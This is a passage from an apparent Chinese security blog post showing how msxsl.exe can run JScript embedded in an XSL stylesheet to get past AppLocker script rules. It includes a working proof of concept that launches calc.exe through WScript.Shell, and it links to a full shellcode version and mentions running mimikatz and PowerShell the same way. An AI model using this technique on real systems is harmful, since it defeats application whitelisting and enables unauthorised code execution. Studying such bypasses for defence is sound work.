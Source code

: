 
script.xml:

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      return nodelist.nextNode().xml;
	  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

成功执行JScript代码，弹出计算器，poc执行如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-2.png)

开启Applocker，添加规则拦截js脚本的执行，但是使用msxsl仍然能够执行JScript代码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-3.png)

在之前的文章《利用JS加载.Net程序》介绍过利用JScript脚本加载.Net程序的方法，结合本文，可以得出推论：

**使用msxsl也能够执行c#代码**

具体来说，能够实现以下功能：

- 执行shellcode
- 执行mimikatz
- 执行powershell脚本

### 2、执行shellcode

可参照Cn33liz的StarFighters，地址如下：

https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

结合Casey的POC，就能够实现利用msxsl执行shellcode

完整代码我已经上传至github，地址如下：

https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/shellcode.xml

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/3-1.png)

对于执行mimikatz和powershell脚本，思路可参照之前的文章《利用JS加载.Net程序》
